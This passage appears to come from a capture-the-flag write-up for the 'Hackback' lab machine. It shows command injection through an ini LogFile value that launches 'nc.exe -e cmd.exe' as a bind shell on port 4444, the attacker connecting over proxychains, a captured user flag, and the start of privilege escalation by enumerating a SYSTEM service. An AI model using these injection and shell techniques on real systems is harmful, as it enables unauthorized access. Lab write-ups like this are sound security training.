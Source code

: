     PS hackback\simple@HACKBACK scripts> type clean.ini
    [Main]
    LifeTime=100
    LogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444
    Directory=c:\inetpub\logs\logfiles



After 5 minutes:



    root@kali# proxychains nc 127.0.0.1 4444
    ProxyChains-3.1 (http://proxychains.sf.net)
    Microsoft Windows [Version 10.0.17763.292]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    hackback\hacker



This is not the preferred method, and frankly, I wish they had made this
not available. Once you are connected via this method, the running
scheduled task will hang until the shell exits, and thus, no one else
working on the box can move past. That said, this was the first way I
figured out when solving the box.

### Shell as hacker

In either case, I have a shell as hacker, and I can grab `user.txt`:



    C:\Users\hacker\Desktop>type user.txt
    922449f8...



## Privesc to SYSTEM

### UserLogger Service

#### Enumeration

In looking around the system, I noticed a service running that I didn't
recognize, UserLogger:



    PS C:\windows\temp> reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger
    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger

    HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger
        Type    REG_DWORD    0x10
        Start    REG_DWORD    0x3
        ErrorControl    REG_DWORD    0x1
        ImagePath    REG_EXPAND_SZ    c:\windows\system32\UserLogger.exe
        ObjectName    REG_SZ    LocalSystem
        DisplayName    REG_SZ    User Logger
        Description    REG_SZ    This service is responsible for logging user activity
